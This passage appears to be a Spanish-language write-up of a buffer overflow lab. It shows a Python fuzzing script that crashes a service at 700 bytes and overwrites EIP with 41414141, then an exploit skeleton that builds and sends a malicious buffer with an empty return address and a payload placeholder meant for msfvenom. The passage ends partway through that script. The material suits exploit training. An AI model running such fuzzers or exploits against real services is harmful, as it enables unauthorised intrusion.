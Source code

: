 ``` python
            s.connect((IP, PORT))

            # Recibir datos iniciales del servidor (si los hay)
            s.recv(1024)

            # Enviar el buffer al servidor
            print(f"Fuzzing con {len(buffer) - len(PREFIX)} bytes")
            s.send(buffer.encode("latin-1"))

            # Recibir respuesta del servidor
            s.recv(1024)

    except Exception:
        # Detecta un posible crash
        print(f"El servidor se rompió con {len(buffer) - len(PREFIX)} bytes")
        sys.exit(0)

    # Incrementa el tamaño del buffer y espera antes del próximo envío
    buffer += "A" * BUFFER_INCREMENT
    time.sleep(1)

```


Resultados de análisis:

Durante las pruebas con el script de fuzzing, se observó que el programa se bloqueaba al recibir una entrada de 700 bytes, lo que indicaba el punto exacto de desbordamiento. 

![[Pasted image 20250121161856.png]]



El análisis de los registros mostró que el registro **EIP** contenía el valor `41414141`, lo cual corresponde al carácter `A` en codificación hexadecimal. Este comportamiento confirma que se alcanzó el registro de instrucción, lo que puede ser explotado para redirigir el flujo de ejecución.
![[Pasted image 20250127143053.png]]

A partir de los resultados del fuzzing, se procedió a calcular el **offset** necesario para sobrescribir de manera precisa el registro EIP.

``` python
import socket

# Configuración del objetivo
IP = "MACHINE_IP"        # Dirección IP de la máquina objetivo
PORT = 1337              # Puerto donde escucha el servicio

# Parámetros del buffer
PREFIX = "OVERFLOW1 "    # Prefijo necesario para el comando específico
OFFSET = 0               # Offset obtenido del análisis previo
RETN = ""                # Dirección de retorno (se llenará tras análisis)
PADDING = ""             # Bytes de relleno (si son necesarios)
PAYLOAD = ""             # Payload malicioso generado con herramientas como msfvenom
POSTFIX = ""             # Sufijo necesario (si aplica)

# Construcción del buffer malicioso
buffer = PREFIX + "A" * OFFSET + RETN + PADDING + PAYLOAD + POSTFIX

# Función principal para enviar el buffer
try:
    # Crear conexión con el servidor objetivo
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((IP, PORT))
        print("Enviando buffer malicioso...")
        
```